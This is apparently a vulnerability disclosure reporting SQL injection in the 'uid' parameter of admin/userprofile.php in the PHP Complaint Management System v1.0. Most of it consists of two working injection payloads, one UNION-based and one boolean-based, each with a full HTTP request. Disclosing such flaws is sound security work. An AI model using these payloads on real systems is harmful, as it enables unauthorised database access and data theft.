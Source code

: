 # Complaint Management System v1.0 has SQL injection

BUG_Author: 808bass

Website source address:https://www.sourcecodester.com/php/14206/complaint-management-system.html

Vulnerability File: /Complaint Management System/admin/userprofile.php

GET parameter 'uid' exists SQL injection vulnerability

Payload1:uid=1' union all select null,null,null,null,concat(0x414243,0x515253,0x616263),null,null,null,null,null,null,null,null-- -

```
GET /Complaint%20Management%20System/admin/userprofile.php?uid=1%27%20union%20all%20select%20null,null,null,null,concat(0x414243,0x515253,0x616263),null,null,null,null,null,null,null,null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=4amosvnpbfikcpl9np95smjnth
Connection: close
```

union query success

![image](https://github.com/winkle175/bug_report/blob/main/sql1.png)

Payload2:uid=1' and 666=666 and 'p'='p 

```
GET /Complaint%20Management%20System/admin/userprofile.php?uid=1%27%20and%20666=666%20and%20%27p%27=%27p HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=4amosvnpbfikcpl9np95smjnth
Connection: close
```

The sql statement is executed correctly

![image](https://github.com/winkle175/bug_report/blob/main/sql2.png)
